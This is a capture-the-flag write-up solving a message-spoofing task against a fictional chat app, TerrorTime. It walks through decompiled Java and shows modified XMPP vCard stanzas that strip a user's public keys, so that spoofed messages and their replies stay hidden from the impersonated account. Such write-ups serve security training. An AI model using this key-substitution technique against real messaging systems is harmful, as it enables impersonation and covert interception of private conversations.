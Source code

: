 # Task 6a - Message Spoofing

## Prompt

The ability to masquerade as a TerrorTime user is helpful, even when we are not able to access the plaintext version of their messages. We want to be able to send "spoofed" messages (i.e., messages appearing to be from the user we are masquerading as) to other TerrorTime users as a way of disrupting their attack plans. Critically, any conversation we have as the masqueraded user should never be visible to that user the next time they access their account. But complicating matters is the fact that all messages sent and received through TerrorTime are archived on the chat server and downloaded each time a user logs in to their account. For this task, identify a vulnerabilty that will allow you to send/receive messages as a TerrorTime user without that user ever seeing those messages the next time they access their account. To prove your solution, submit the encrypted message body of a spoofed message that was sent from the organization leader to a cell leader. Submit the full client id of the cell leader you chose. Put the organization leader's account in a state such that replies to your spoofed message will never be seen by them, but still readable by you.

## Solution

In task 5 we learned how to spoof the login of another user to be able to send messages as them. Now we have to figure out how to cover our tracks to make sure the real user won't see our messages or get replies from the user we're messaging. It really helps to have an idea of how the public key infrastructure is set up for the TerrorTime application to figure out an exploit.

Every user should have a public and private key that they use to receive and decrypt messages with repectively. If the server archives all of these messages, it will only be able to have an encrypted copy. And if we have our own public/private key then the real user shouldn't be able to see our spoofed message anyway, right?! Something else must be going on for a user with a different private key to be able to decrypt a message we send. Let's take a look at what a message looks like to figure out what might be going on.

![Message](images/msg.png)

Interesting, the only thing that seems out of place is the message key. If a single symmetric key for the message is encrypted using each public key for every user that would explain why so many people can see the message! Let's look in the decompiled code to confirm this.

`crypto/Messaging.java` makes it clear that this is the case. The `messageKey` has multiple public key fingerprints that each have the symmetric key encrypted with the public key from the fingerpint. So, if we wanted to prevent the real organization leader from being able to see the message, my first thought would be to remove their `messageKey` section from the spoofed message we send out. Unfortunately, this chunk of code makes sure that all messages have all public key fingerprints for both sender and recipient:

```
final JSONObject jsonObject4 = new JSONObject(new String(CryptHelper.aesDecrypt(unwrapKey, dec
if (jsonObject4.has(((Message)ex).getClientId()) && jsonObject4.has(((Message)ex).getContactId
final JSONArray jsonArray = jsonObject4.getJSONArray(((Message)ex).getClientId());
final JSONArray jsonArray2 = jsonObject4.getJSONArray(((Message)ex).getContactId());
for (int i = 0; i < jsonArray.length(); ++i) {
    if (!jsonObject2.has(jsonArray.getString(i))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
for (int j = 0; j < jsonArray2.length(); ++j) {
    if (!jsonObject2.has(jsonArray2.getString(j))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
```

If we can't remove or modify the fingerprint, maybe we could modify the key? The key isn't verified for the sender by the recipient and it would prevent the real user from decrypting the message upon login. However, that would only prevent them from getting the messages we spoof, not the replies because a sender has their own copy of the public keys for their recipient. 

Perhaps we can go to the source? The list of public keys has to come from somewhere and we definitely have the ability to update it because everyime we generate a new public key pair it gets added to the list. Otherwise we wouldn't be able to spoof messages. If we can add, we might also be able to delete.

Doing a quick search for anything mentioning public keys, `grep -ir "publickey" ./` gives us a bunch of results, but towards the bottom there are a few references to something called `savePublicKey` and `savePublicKeyToVCard` in `LoginActivity.java`. A vCard is a Virtual Contact Card, just something that each client has with some information. If this app is using the vCard to exchange Public Keys, we can probably manipulate the key update on login. The VCardHelper.java file contains the `savePublicKey` method:

```
public static boolean savePublicKey(final String s) {
        final TerrorTimeApplication instance = TerrorTimeApplication.getInstance();
        try {
            final VCardManager vCardManager = instance.getVCardManager().orElseThrow((Supplier<? extends Throwable>)_$
            VCard loadVCard;
            if ((loadVCard = vCardManager.loadVCard(instance.getXMPPTCPConnection().orElseThrow((Supplier<? extends Th
                loadVCard = new VCard();
            }
            final String field = loadVCard.getField("DESC");
            if (field != null) {
                final String[] split = field.split(":");
                for (int length = split.length, i = 0; i < length; ++i) {
                    if (Arrays.equals(split[i].getBytes(), s.getBytes())) {
                        return true;
                    }
                }
                final StringBuilder sb = new StringBuilder(s);
                sb.append(":");
                sb.append(field);
                loadVCard.setField("DESC", sb.toString());
            }
            else {
                loadVCard.setField("DESC", s);
            }
            vCardManager.saveVCard(loadVCard);
            return true;
        }
        finally {
            final Throwable t;
            Log.e("EXCEPTION", "Error saving public key", t);
            return false;
        }
    }
```

This method fetches the vCard on login and checks to see if our key is in that card, if it is not, it updates the card with our information. Let's see if we can see this traffic in BurpSuite while logging into an account.

![VCard](images/vcard.png)

Confirmed! The vCard is being retrieved and updated at login. So, if we want to prevent the archived messages from being seen by the legitimate user, we can remove all of the public keys from the vCard response, then our key will be added and we will be the only ones able to read that message!

Here's the modified response to our vCard request:

```
<iq xml:lang='en' to='malia--vhost-10@terrortime.app/chat' from='malia--vhost-10@terrortime.app' type='result' id='fsa1a-2893'><vCard xmlns='vcard-temp'><DESC>
</DESC></vCard></iq>
```

Here's the vCard update request from our app:

```
<iq id='fsa1a-2895' type='set'><vCard xmlns='vcard-temp'><DESC>-----BEGIN PUBLIC KEY-----
MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQA0EAaw73OKk2j6H5xmFvV/
4bW26pd7sd/sFnjngyU/0+AjZPMUjd7VN0akxsnBA33t0XAOAJmyUvMbIxHR/sTf
F5wk76SaJmwBaZQjlW/SQIIGHKskTuPxPFbP+3uJVhtHdUa7dxQcztWxdq2zK1XH
4lycqeorL0keJ0AhnfAz64cnuG+dSCG3d5aumqsHspDUPA1AAEHA9cJE0hqajsV3
T/LxBVrn2ha9VzHgHBDUPzGuPuTE2p8W5xmKMUS68uF9QTAM463wnzznTJkuCHbZ
4r7q50yaA87xYkdSFqE/+moX4ZuIqoW0TA9PYHzGyeerm2d+qfx7EYw8XHbMdF7H
AgMBAAE=
-----END PUBLIC KEY-----
:
</DESC></vCard></iq>
```

Now any messages we send will fulfill the challenge requirements as long as the recipient is a Cell Leader.

```
{
  "messageKey": {
    "gO8Zs/2vO0rtrJwY6WULjiBWRDscPiRuU+Tsh2kpH9s=": "Hgx+ms3/fSSYVdwyDItN9gQT5eTHcvse846dM5PurQIP5qrkPW5pJaiwQyPJWRWGORoQegi5+S2K28XzVlR0qn4nVg5uaWMXR5DwrJpj2H9UkrgtUTLcr2CaRmsKltaXgwx29iHqjou2bwcnOIjQv1Iq+MYGtZE8CXwaNJZqFwme5CDjTFGQ6hvTf+vWaHL9sDB1HSLZC2OrFb7Hh9pt677B+9E/MIdZiQ/MEHndK030B0Z0jR3ww/9smSsBembaZjuVIpURoN9OhURdN9AeNr5Lv3XPJYIRsb3Gi1axWmbf/MVaRg7hKqQdtiCu8ICJ8NyPLeyAKfvCLJCm+p+53g==",
    "TctZgSAE7tgW8R3z2xa9VJX3wPDBYfaYr5/Y+5jUWjs=": "AVs2ppLVbb12VZ1tzPo7pfHtofuOWPHp4gr2HiASAHztwS+LZqYY4qK1Rx/mKAf7tH5Zv3dA2DAWyz9eyuc9CQzuM9x6Bx0sY91F27mURJIpvfbQPlwO/5Hlvprc0Zt7zgpSBeHJD5MqhFcNXt0+lzPTRZGL8GnUNY1ZzkfGOPqWEtYDj2c3Td+Cs3UIlNJAeU9pgj12w0+nx0+ztG8yKhxBT8xMoI59Gd7qJQch9ArnkUVq/iVwY0oeiw6qNzwnv7yUCGTATW4Gey9vQwO5c1cw9yZDyKJujzoFVXEorCoaWpve0sAIofstP5jpjx5bqxYAB9gxs0jHxvFoeQTh3A==",
    "HDS+POWZ3VbPZnNZ8D7t/1S1kxUpBRoDTQs9OP1uQCI=": "F1xk8nmBRQST37m9j96hmG4J2hFU8ofiqP8Xb9rCfzU+OTda4BHg1a8kKnw9T706DeUAgdPZxwTBCIWrb1Th/mpK/VtIHQBOl1XuomTtFH8TjePoWxQptR7OE2e13PctcDvzouRBsrqyPJL5XoVlQ5hEUy6fGQV1WPEveYRoKjjy+A6s07eMAqPkAdN9yB+hvTkanlIi+F9j53Zr4z5wmldNeEjmL9G9pBtugRdZ/+X3joru1xG72TywqT3+WNICo9RE7J7be7VKNhxrFUvFgrK6OmWJNYkEn3Ia5KvNNYw8sk9M+9yQobNMXd1VOEJ56VP8RqqYLMNE6MPzfe9NhQ==",
    "T7+CH1iMcPuo93vpMvGfQpyBdsUwu5ur4CXnonP9bDo=": "Jmz7HFKToIPiCwJ1H6QEMCz9CzvzoyW8QvywkFFRt0cGYIuKATGVQ67Dz3Y3ehf2l4yUQsts2qZ8lbWmFdHAI+WZHhRn0dstYMxe5ifbDdr8Cxj6YU0fjuRSdixvyp0KctRYF5JBy1AJX9CiY+/3UBz3fwMtMVk9it1ukXTyDcsUQw61zn2U102rUspNJ12Z/ITCqTXWOfYVTITXrEQAorBkVFKaTZxdMtZgX76LevaHftEWBgrNRbLE8uISwAD76q5sT8CZl/oofU2Yf0Ot13BBhiA2/USGwNmo8zt/GO2QboAdX0eRQQSOh1Yp+G/O6/2/ce7JXBpLjPjli0PpUQ==",
    "7uz4b7go+xNdYzlBsBfWmxBSseGOhfk5REuruRVyv4Y=": "ASGu0oifxKVn0jaXl+5AqJSBh91dw0y/QIojYMZLhjhuLp9In9rFHkSi5EtCFOLTAYGyZWvRc6tKn94fvup7uJUKgZTM8/tmvdkfT2pLR2gK1yB+9YJ7JUEehjAjyh4Cqik3L7KM7ac/tUH2zaVLYWR4qP4ozvQ468uvt10lqZ3bD6ZiPIizpCaIdyxunv+1Kx8uK/4/D/bLlMNiTSpUGcokXSVG0YHuF5kvRVNEZaW7Ne0nNvq/35UvHP6TmgstSmwyYPnCZj3xRorQkMgsUjgKn9pEUz0NM6NOz4hO92GSrcaVlvTLcokrd5LEtLGvCk9nrefwjXzqHMQVs2XpUQ=="
  },
  "message": {
    "iv": "AZo8mjwObz5edVoybfTQ6Q==",
    "msg": "XP2/dxW2ng4KwCEHdfJsM0A7Eii5d/eFTXCGWgnDQCqWs7ksk8UrGrG838zd5RPoMV1sZBB4C/yNXnH1Eb+sf+COTNmleGeJzue9W3JO7RyuvmgbvF4qIZ76hEwn5lxRaOSmYtGWWZrAxeKMiU7y2UAnxf/5Rb90oHzp3kLKN0ZA+/5tDH1u41zyMYbloHIEaIrCoHnLLOuroYDzEPcJV5J8X5zqsOc98qKNq3BY42W81Nq6KIuBZxT9x8K/qnXfmE1eZRyOvbeR+ZqDqL59n3SyO8VIGvpbeJ5YaoayisVoJZssiDpHV6i4buzh94iA4DtCiZgokN7hNO/NPql9QQi25PAu1Tige3jEO377lbiGYd2I5m+ZRDmLgQbwXL2Ysy0mMmNZtSAEmyReDsZM/G0xeUXP78C/6AY1wmYgtqJ6FHJFdPLy4uEMkA/1jqOR"
  },
  "messageSig": "xVAhG9isdjCNDDXtbg8/rdfG0m0jXJgO2RDl4HabvXo="
}
```

Our spoofed user accounts for one of the `messageKey` fields here and our Cell Leader accounts for the other four and no one besides us and the Cell Leader have access to these messages, archived or not. 

